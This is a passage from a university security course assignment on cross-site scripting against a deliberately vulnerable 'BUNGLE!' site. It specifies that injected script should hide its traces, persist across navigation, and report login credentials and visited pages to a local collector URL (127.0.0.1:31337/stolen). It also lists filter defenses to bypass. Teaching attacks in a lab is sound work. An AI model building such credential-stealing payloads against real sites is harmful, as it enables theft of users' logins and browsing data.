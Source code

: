 (Hint: Learn about the HTML5 History API.)

<ul>

 <li>Hide evidence of attack in the <strong>B</strong><strong>UNGLE! </strong>search history view, as long as your code is running. Persistence:</li>

 <li>Continue the attack if the user navigates to another page on the site by following a link or submitting a form, including by logging in or logging out. (Your code does not have to continue working if the user’s actions trigger an error that isn’t the fault of your code.)</li>

 <li>Continue the attack if the user navigates to another <strong>B</strong><strong>UNGLE! </strong>page by using the browser’s back or forward buttons.</li>

</ul>

Spying:

<ul>

 <li>Report all login and logout events by loading the URLs:</li>

</ul>

http://127.0.0.1:31337/stolen?event=login&amp;user=&lt;username&gt;&amp;pass=&lt;password&gt; http://127.0.0.1:31337/stolen?event=logout&amp;user=&lt;username&gt;

You can test receiving this data on your local machine by using running a basic Python server:

(Python 2) $ python -m SimpleHTTPServer 31337

(Python 3) $ python -m http.server 31337

<ul>

 <li>Report each page that is displayed (what the user thinks they’re seeing) by loading the URL: http://127.0.0.1:31337/stolen?event=nav&amp;user=&lt;username&gt;&amp;url=&lt;encoded_url&gt;</li>

</ul>

(&lt;username&gt; should be omitted if no user is logged in.)

<h2>Defenses</h2>

There are four levels of defense. In each case, you should submit the simplest attack you can find that works against that defense; you should not simply attack the highest level and submit your solution for that level for every level. Try to use a different technique for each defense. The Python code that implements each defense is shown below, along with the target URL and the filename you should submit.

2.0 No defenses

Target: <a href="http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=0">http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=0 </a>Submission: xss_0.txt

Also submit a human readable version of the code you use to generate your URL, as a file named xss_payload.html.

2.1 Remove “script” filtered = re.sub(r”(?i)script”, “”, input)

Target: <a href="http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=1">http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=1 </a>Submission: xss_1.txt
